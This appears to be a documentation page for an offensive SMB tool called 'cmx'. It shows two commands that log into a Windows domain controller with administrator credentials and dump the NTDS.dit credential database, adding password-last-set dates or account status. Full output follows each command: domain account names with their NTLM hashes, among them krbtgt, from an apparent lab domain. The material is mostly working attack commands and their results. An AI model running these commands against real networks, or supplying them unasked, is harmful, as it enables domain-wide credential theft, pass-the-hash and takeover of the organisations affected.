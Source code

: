 ------------------------------------------------------------------------
### \*\*\*Show the pwdLastSet attribute for each NTDS.dit account  
Password last set info is appended after the hash.   
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds --ntds-pwdLastSet

Aug.20.19 16:01:47  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b::: (pwdLastSet
=2019-06-12 09:56)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (pwdLastSet=never)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee::: (pwdLastSet=2019-0
1-17 15:11)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\agrande:1104:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727::: (pwd
LastSet=2019-01-18 10:58)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\ozzy:1111:aad3b435b51404eeaad3b435b51404ee:9ae52054b53d771c62414f93ed0a2599::: (pwdLas
tSet=2019-01-25 13:46)
Aug.20.19 16:01:48  SMB         10.10.33.100:445  10.10.33.100 testuser:1121:aad3b435b51404eeaad3b435b51404ee:86673aaff536236dd926c9af42642044::: (pwdLastSet=201
9-02-07 13:04)
```

------------------------------------------------------------------------
### Show the account status for each NTDS.dit account  
Enabled or disabled.   
```
#~ cmx smb 10.10.33.100 -u Administrator -p AdminSuper\!23 --ntds --ntds-status

Aug.20.19 17:37:19  SMB         10.10.33.100:445  10.10.33.100 [*] Windows Server 2012 R2 Datacenter 9600 x64 (domain:OCEAN) (signing:True) (SMBv:1)
Aug.20.19 17:37:19  SMB         10.10.33.100:445  10.10.33.100 [+] OCEAN\Administrator:AdminSuper!23 (Pwn3d!)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 [+] Dumping the NTDS, this could take a while so go grab a redbull...
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 Administrator:500:aad3b435b51404eeaad3b435b51404ee:aef8db238cf09c4744b7b2a26277189b::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0::: (status=Disabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 krbtgt:502:aad3b435b51404eeaad3b435b51404ee:196ced39f728b80790127de587b8d8ee::: (status=Disabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\agrande:1104:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 ocean.depth\ozzy:1111:aad3b435b51404eeaad3b435b51404ee:9ae52054b53d771c62414f93ed0a2599::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 testuser:1121:aad3b435b51404eeaad3b435b51404ee:86673aaff536236dd926c9af42642044::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 ringo:1122:aad3b435b51404eeaad3b435b51404ee:bbc2bf2fbca9dd9ed74d3c1b55e3d727::: (status=Enabled)
Aug.20.19 17:37:20  SMB         10.10.33.100:445  10.10.33.100 FdBChukYpb:1123:aad3b435b51404eeaad3b435b51404ee:1074d4d3b4de771fa1220899072fe02d::: (status=Enabled)
```
